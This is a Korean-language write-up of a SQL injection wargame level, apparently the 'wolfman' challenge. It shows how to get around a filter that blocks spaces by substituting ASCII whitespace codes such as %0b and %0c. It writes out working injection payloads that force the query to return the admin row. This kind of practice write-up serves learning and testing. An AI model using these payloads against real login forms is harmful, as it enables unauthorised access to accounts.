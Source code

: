 ## Q5. wolfman _ 공백 우회 기법 (ASCII)
<img src="/photo/prob_05.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: 공백문자 <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> pw에 id컬럼 만들어 admin 적용
=> || 이용
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||id='admin'--+'
```
```
but. +는 공백문자로 제한됨
=> 아스키코드의 공백문자인 0b, 0c 이용
```
```
해결 쿼리문: where id='guest' and pw=''||id='admin'--
```
### CERT <br> ?pw='||id='admin'--%0b'

### 느낀점
```diff
+ 아스키코드를 이용한 공백 우회 기법에 대해 배웠다.
+ %0b / %0c / %0d 등
```

### 다른 풀이
1. ?pw=''||id='admin
   - 뒤에 '로 끝남
   - => 굳이 주석 안 붙여도 됨
